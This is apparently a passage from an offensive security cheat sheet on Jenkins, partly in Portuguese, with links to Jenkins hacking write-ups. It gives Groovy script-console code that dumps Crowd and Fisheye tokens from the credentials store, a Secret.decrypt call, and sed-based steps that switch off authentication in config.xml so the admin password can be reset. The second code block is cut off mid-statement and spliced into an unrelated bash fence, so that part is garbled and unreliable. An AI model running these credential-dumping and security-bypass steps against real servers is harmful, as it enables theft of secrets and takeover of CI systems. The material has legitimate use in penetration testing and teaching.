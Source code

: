 #### Dump credentials from the script console (Crowd tokens)

```groovy
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.atlassian.crowd.jenkins.internal.credentials.*

def domain = Domain.global()
def store = Jenkins.instance.getExtensionList(
    'com.cloudbees.plugins.credentials.SystemCredentialsProvider'
)[0].getStore()

for (c in store.getCredentials(domain)) {
    if (c instanceof CrowdToken) {
        println(c.id + ' ' + c.token)
    }
}
```

#### Dump credentials from the script console (Fisheye tokens)

```groovy
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
import com.atlassian.fisheye.jenkins.internal.credentials.*

def domain = Domain.global()
def store = Jenkins.instance.getExtensionList(
```bash
println(hudson.util.Secret.decrypt("{...}"))
```
### Criar novo usuário admin

1. Acesse o arquivo config.xml do Jenkins em `/var/lib/jenkins/config.xml` ou `C:\Program Files (x86)\Jenkis\`
2. Procure pela palavra `<useSecurity>true</useSecurity>` e altere a palavra **`true`** para **`false`**.
1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Reinicie** o servidor **Jenkins**: `service jenkins restart`
4. Agora vá novamente ao portal do Jenkins e **o Jenkins não pedirá nenhuma credencial** desta vez. Navegue até "**Manage Jenkins**" para definir a **senha do administrador novamente**.
5. **Habilite** a **segurança** novamente alterando as configurações para `<useSecurity>true</useSecurity>` e **reinicie o Jenkins novamente**.

## Referências

* [https://github.com/gquere/pwn\_jenkins](https://github.com/gquere/pwn\_jenkins)
* [https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/](https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/)
* [https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password](https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password)
* [https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html](https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html)
* [https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072](https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072)
* [https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3](https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3)
